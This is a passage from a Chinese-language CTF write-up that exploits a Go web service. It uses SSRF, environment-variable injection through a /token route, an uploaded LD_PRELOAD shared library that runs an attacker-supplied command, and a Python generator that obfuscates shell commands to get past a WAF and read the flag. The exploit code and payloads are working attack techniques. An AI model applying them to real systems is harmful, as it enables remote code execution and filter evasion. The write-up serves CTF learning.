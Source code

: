 ```go
	fs := http.FileServer(http.Dir("dist/static"))
	http.Handle("/static/", http.StripPrefix("/static/", fs))
	http.HandleFunc("/token", getToken)
	http.HandleFunc("/upload", uploadFile)
	http.HandleFunc("/list", listFile)
	log.Print("start listen 9090")
	err = http.ListenAndServe(":9090", nil)
	if err != nil {
		log.Fatal("ListenAndServe: ", err)
	}
}
```

所以我们需要SSRF访问9091端口的/manage 并且绕waf进行命令注入读flag

注意到web服务的/token路由可以设置环境变量，我们自然想到利用LD_PRELOAD和恶意.so来劫持系统函数进行rce

传文件，通过web的`/token?http_proxy=http://127.0.0.1:8080`可以获得当前token（即上传目录

之后上传恶意.so

```c
#include<stdlib.h>
__attribute__((constructor)) void l3yx(){
    unsetenv("LD_PRELOAD");
    system(getenv("_evilcmd"));
}
```

```bash
$ gcc -shared -fPIC e.c -o e.so
```

在`/token?LD_PRELOAD=/code/uploads/{token}&_evilcmd=ls%20-l%20/&http_proxy=127.0.0.1:8080`下进行注入，成功rce

之后弹个shell

最后，对于waf，用这个（之前也见过

```python
n = dict()
n[0] = '0'
n[1] = '${##}'
n[2] = '$((${##}<<${##}))'
n[3] = '$(($((${##}<<${##}))#${##}${##}))'
n[4] = '$((${##}<<$((${##}<<${##}))))'
n[5] = '$(($((${##}<<${##}))#${##}0${##}))'
n[6] = '$(($((${##}<<${##}))#${##}${##}0))'
n[7] = '$(($((${##}<<${##}))#${##}${##}${##}))'
f=''
def str_to_oct(cmd):
    s = ""
    for t in cmd:
        o = ('%s' % (oct(ord(t))))[2:]
        s+='\\'+o
    return s
def build(cmd):
    payload = "$0<<<$0\<\<\<\$\\\'"
    s = str_to_oct(cmd).split('\\')
    for _ in s[1:]:
        payload+="\\\\"
        for i in _:
            payload+=n[int(i)]
    return payload+'\\\''
print(build('cat /flag'))
```
